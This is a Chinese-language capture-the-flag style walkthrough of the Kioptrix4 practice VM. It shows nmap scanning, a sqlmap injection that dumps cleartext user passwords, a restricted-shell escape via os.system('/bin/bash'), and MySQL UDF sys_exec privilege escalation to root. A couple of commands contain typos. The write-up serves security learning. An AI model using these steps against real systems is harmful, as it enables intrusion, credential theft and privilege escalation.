 # Kioptrix4 通关笔记

- 笔记内容由 [xidaner](https://github.com/xidaner) 提供，我仅作部分内容修改

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

# 前期
## nmap
开机后我们发现 这个用户名和密码是不知道的

![image](../../../assets/img/安全/实验/Kioptrix4/1.png)

在虚拟机中要先接入到和 kali 一个网段中。然后我们要知道这个虚拟机的 ip 地址，就要用到 IP 探活。

```
nmap -sP <你虚拟机网卡的网段> /24
```

![image](../../../assets/img/安全/实验/Kioptrix4/2.png)

可以发现网段中一共有 4 个 ip 地址，除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口
```
nmap 192.168.17.130
```

![image](../../../assets/img/安全/实验/Kioptrix4/3.png)

可以发现，目标打开了 80 端口

![image](../../../assets/img/安全/实验/Kioptrix4/4.png)

目测可以注入,尝试了简单 payload，下面选择直接跑 sqlmap

---
---
---

# 中期
## sql注入

代码：

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```

![image](../../../assets/img/安全/实验/Kioptrix4/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期
## 尝试 SSH 登陆

输入用户名和密码登陆进去

![image](../../../assets/img/安全/实验/Kioptrix4/10.png)

这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
ifconfig
```

![image](../../../assets/img/安全/实验/Kioptrix4/11.png)

查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```

![image](../../../assets/img/安全/实验/Kioptrix4/12.png)

---

## 登陆 MYSQL
```
mysql -u root -p
```

---

![image](../../../assets/img/安全/实验/Kioptrix4/13.png)

## mysql UDF 提权

在mysql中输入
```
use mysql

create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

select sys_exec('id > /tmp/out; chown john.john /tmp/out');

```
![image](../../../assets/img/安全/实验/Kioptrix4/16.png)

```
use musql

select sys_exec('usermod -a -G admin ')
select sys_exec('usermod -a -G admin john');
```
![image](../../../assets/img/安全/实验/Kioptrix4/17.png)
![image](../../../assets/img/安全/实验/Kioptrix4/18.png)

在我们退出去后，尝试登陆到 root

![image](../../../assets/img/安全/实验/Kioptrix4/19.png)

`whoami` 确认获取 `root`
